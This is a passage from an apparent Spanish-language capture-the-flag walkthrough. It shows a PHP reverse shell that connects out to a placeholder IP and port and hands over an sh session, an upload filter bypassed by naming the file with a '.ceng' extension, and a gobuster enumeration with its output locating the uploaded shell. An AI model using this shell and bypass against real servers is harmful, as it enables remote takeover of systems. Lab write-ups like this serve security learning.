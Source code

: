 Y aqui podremos subir lo que queramos, por lo que hacemos lo siguiente...

Crearemos un archivo con una `Reverse Shell`...

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Sera con `.php` pero si subimos por ejemplo un archivo llamado `shell.php` no nos dejara tiene que ir con una extension determinada de la siguienre manera `shell.ceng`...

Lo subiremos con esa extension ya que igualmente se ejecutara la shell, no hace falta cambiarlo con `BurpSuit` ni nada parecido..

Este archivo se subira en una `URL` que encontramos antes de `/uploads` en la pagina principal con el primero `Gobuster` que encontramos...

```
URL = http://<IP>/uploads/shell.ceng
```

Ya que si nos vamos a solo `/uploads` no nos aparecera nada por lo que pondremos el nombre del archivo que subimos, igualmente esto se puede descubrir poniendo el siguiente comando...

```shell
gobuster dir -u http://<IP>/uploads -w <WORDLIST> -x php,html,txt,ceng -t 50 -r -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.159/uploads
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,ceng
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htpasswd.ceng       (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htaccess.ceng       (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/shell.ceng           (Status: 200) [Size: 0]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```
